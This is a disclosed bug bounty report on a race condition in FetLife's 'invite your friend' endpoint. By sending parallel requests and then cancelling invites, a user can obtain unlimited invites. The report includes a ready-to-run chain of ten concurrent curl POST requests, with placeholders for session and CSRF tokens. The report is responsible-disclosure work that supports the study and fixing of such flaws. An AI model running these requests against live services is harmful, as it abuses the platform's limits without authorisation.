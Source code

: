 # Race condition in endpoint POST fetlife.com/users/invitation, allow attacker to generate unlimited invites

## Report Details
- **Report ID**: 1460373
- **URL**: https://hackerone.com/reports/1460373
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-01-26T04:33:55.120Z
- **Disclosed**: 2022-03-09T12:58:32.690Z

## Reporter
- **Username**: trieulieuf9
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: fetlife

## Vulnerability Information
This report describes the same bug as #1455487. I rewrite this bug here to make the report clearer. I will self-close #1455487 right now.

# Description

The `Invite Your Friend to Join FetLife` feature is vulnerable to race condition.

By sending many requests at the same time to endpoint `POST fetlife.com/users/invitation`. We are able to send many invites with the cost of 1 invite.

{F1592724}

Also, if we cancel sent-invite, we get back this invite. So basically, we can create unlimited invites by send many invites in race condition, then canceling them to get invites added back to our account.

{F1592733}

# Step to Reproduce

This is a chain of 10 curl commands in the form of `curl_command_1 & curl_command_2 & ... & curl_command_10`. It allows us to run 10 curl commands at the same time.

```
curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_1}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_2}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_3}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_4}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_5}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_6}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_7}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_8}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_9}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: _fl_sessionid={session_id}' --data 'authenticity_token={authenticity_token}&user%5Bemail%5D={email_address_10}'
```

1. Please inputs your `session_id` and `authenticity_token` in the above command, there are 10 places to input for each
2. Please uses 10 different emails for 10 curl commands above. such as, `example+1@gmail.com, example+2@gmail.com, ..., example+10@gmail.com`
3. Please url-encode your email addresses, so that: `example+1@gmail.com` becomes `example%2B1%40gmail.com`

## Impact

Attacker is able to generate unlimited amount of invites.

## Attachments
- example.png
- fetlife_hates_him.png
